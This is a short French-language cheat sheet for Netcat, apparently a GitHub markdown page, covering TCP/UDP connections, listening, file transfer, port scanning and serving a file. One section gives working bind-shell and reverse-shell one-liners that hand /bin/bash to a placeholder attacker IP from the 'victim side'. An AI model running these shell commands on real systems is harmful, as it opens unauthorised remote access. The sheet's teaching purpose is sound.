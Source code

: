 # 🔌 Cheatsheet Netcat (nc)

Netcat (nc) est un outil de diagnostic réseau simple et puissant, utilisé pour créer des connexions TCP/UDP, transférer des fichiers, faire du port knocking ou même ouvrir des shells.

---

## 📡 Connexion et écoute

```bash
nc <IP> <PORT>                 # Connexion TCP simple
nc -u <IP> <PORT>              # Connexion UDP
nc -lvnp <PORT>                 # Écoute TCP (-l : listen, -v : verbose, -n : no DNS, -p : port)
```

---

## 🐚 Reverse shell & bind shell

```bash
# Bind Shell (côté victime)
nc -lvnp 4444 -e /bin/bash

# Reverse Shell (côté victime)
nc <IP_de_l'attaquant> 4444 -e /bin/bash
```

---

## 📁 Transfert de fichiers

```bash
# Serveur (récepteur)
nc -lvnp 1234 > fichier.txt

# Client (envoyeur)
nc <IP> 1234 < fichier.txt
```

---

## 🔍 Port scanning basique

```bash
nc -zv <IP> 20-100             # Scan de ports avec Netcat
```

---

## 🔧 Divers

```bash
nc -lvnp 80 < index.html       # Mini serveur web (serve un fichier)
```

---

> 🛡️ Outil puissant, mais à manipuler uniquement dans des environnements légitimes ou d'apprentissage.
